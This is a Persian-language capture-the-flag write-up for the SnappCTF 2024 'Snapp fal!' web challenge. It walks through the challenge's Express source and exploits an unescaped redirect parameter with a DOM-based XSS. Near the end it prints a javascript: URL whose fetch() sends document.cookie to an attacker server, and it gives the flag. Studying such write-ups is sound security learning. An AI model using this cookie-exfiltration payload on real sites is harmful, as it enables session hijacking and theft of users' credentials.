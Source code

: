 ```yaml
---
tags:
  - Snapp CTF
  - SnappCTF-2024
  - XSS
  - DOM-Based XSS
  - Web
---
```



<h1 dir="ltr">Snapp fal!</h1>

<center>

![snappfal.png](./snappfal.png)

</center>

همینطور که میبینین این یه چالش XSS هستش که باید سعی کنیم کوکی های ادمین رو بخونیم و برای خودمون بفرستیم

بعد از باز کردن آدرس وبسایت ما با این صفحه روبرو میشیم

<center>

![snappfal1.png](./snappfal1.png)

</center>

اگه روی دکمه *نشون بده* کلیک کنین وارد یه صفحه میشین که آدرسش به این صورت هستش:

‍‍```https://snappfal.spchallenge.ir/fal?back=/&fal=some-random-text-here```

که توی اون صفحه بهتون متن فال رو نشون میده که (همون چیزی هستش که توی پارامتر fal قرار داره) و بعد از چند ثانیه به آدرسی که توی پارامتر back قرار داره ریدایرکت میشیم


برای این سوال به ما سورس چالش رو دادن که میتونین اون رو دانلود کنین و اگه به فایل src.js  دقت کنیم که چطوری فال هارو برای ما نشون میده و چطوری مارو ریدایرکت میکنه

```js
#!/usr/bin/env node
const express = require('express')
const fs = require('fs')

const app = express()
const indexPage = fs.readFileSync('./pages/index.html').toString()
const falPage = fs.readFileSync('./pages/fal.html').toString()
const randomFals = [
	'%D8%AC%D9%84%D8%B3%D9%87%20%D8%A8%D8%B9%D8%AF%DB%8C%20%DA%A9%D9%84%D8%A7%D8%B3%D8%AA%20%DA%A9%D9%86%D8%B3%D9%84%20%D9%85%DB%8C%D8%B4%D9%87',
	'%D9%81%D8%B1%D8%AF%D8%A7%20%D8%AA%D9%88%20%DB%8C%DA%A9%20%D8%AA%D8%B1%D8%A7%D9%81%DB%8C%DA%A9%20%D8%B3%D9%86%DA%AF%DB%8C%D9%86%20%DA%AF%DB%8C%D8%B1%20%D9%85%DB%8C%DA%A9%D9%86%DB%8C',
	'%D8%AD%D9%82%D9%88%D9%82%D8%AA%20%D8%B3%D8%A7%D9%84%20%D8%AF%DB%8C%DA%AF%D9%87%20%D8%B3%D9%87%20%D8%A8%D8%B1%D8%A7%D8%A8%D8%B1%20%D9%85%DB%8C%D8%B4%D9%87'
]

app.get('/',(req,res)=>{
	res.send(indexPage)
})

app.get('/random-fal',(req,res)=>{
	res.redirect('/fal?back=/&fal='+randomFals[Math.floor(Math.random()*randomFals.length)],)
})

app.get('/fal',(req,res)=>{
	let to = (req.query.back ?? '/').toString()
	let fal = (req.query.fal || '').toString()

	to = to.replaceAll('"','\\x22').replaceAll('<','\\x3c')
	fal = fal.replaceAll('"','&quot;').replaceAll('<','&lt;')

	res.send(fs.readFileSync('./pages/fal.html').toString().replace('$fal$',fal).replace('$URL$',to))
})

app.listen(8000, () => {
	console.log('Server listening on port 3000')
})
```

توی مسیر <span dir="ltr">**/random-fal**</span> یک فال رندوم از آرایه randomFals میگیره و به مسیر <span dir="ltr">**/fal**</span> ریدایرکت میشیم

و توی مسیر <span dir="ltr">**/fal**</span> یه *back*, *fal* داریم که *back* آدرسی هستش که به اون ریدایرکت میشیم و fal هم متنی هستش که تو صفحه بهمون نشون میده ولی اگه دقت کنین مقدار fal escape میشه و نمیتونیم برای اون xss بزنیم

خب بیاین یه نگاهی به سورس صفحه ای بندازیم که توش فال ها به ما نشون داده میشه:

```sh
$  curl https://snappfal.spchallenge.ir/fal?back=ADDR_GOES_HERE&fal=FAL_GOES_HERE 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Snapp fal!</title>
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Vazirmatn:wght@400&display=swap" rel="stylesheet">
<style>
    body {
        background-color: white;
    }

    .cont {
        display: flex;
        justify-content: center;
        align-items: center;
        height: 100vh; 
    }

    .card {
        background-color: #f7f6f2;
        padding: 60px 40px;
        border-radius: 10px;
        text-align: center;
    }

    button:hover {
        background-color: #40a38b;
    }

    span {
        color: #81766d;
        font-family: 'vazirmatn', sans-serif; 
        font-size: 32px;
        font-weight: bold;
        display: block;
    }
</style>
</head>
<body>
    <div class="cont">
        <div class="card">
            <span></span>
        </div>
    </div>
    <script>
        setTimeout(_=>{
            document.location = "ADDR_GOES_HERE"  
        },2000)
    </script>
</body>
</html>
```

خب مثله اینکه ادرسی که ما بهش میدیم میره مستقیم میشینه توی document.location ، پس اگه از javascript scheme استفاده کنیم میتونیم XSS بگیریم

ضمن اینکه توضیحات چالش هم به ما یه جورایی هینت داده و این [آدرس](https://portswigger.net/web-security/cross-site-scripting/dom-based) رو بهمون داده تا یه نگاهی بهش بندازیم

```
/fal?javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

به جای REDACTED آدرسی سرور خودتون رو بزارین تا فلگ براتون ارسال بشه یا اینکه از webhook.site استفاده کنین

حالا کافیه که آدرس رو بدیم به ادرس بات که برامون فلگ رو بفرسته xd

```
final addr: https://snappfal.spchallenge.ir/fal?back=javascript:fetch(`https://REDACTED?flag${document.cookie}`)
```

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{89d36f80b85bde916fbdeb8592c1b368}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵
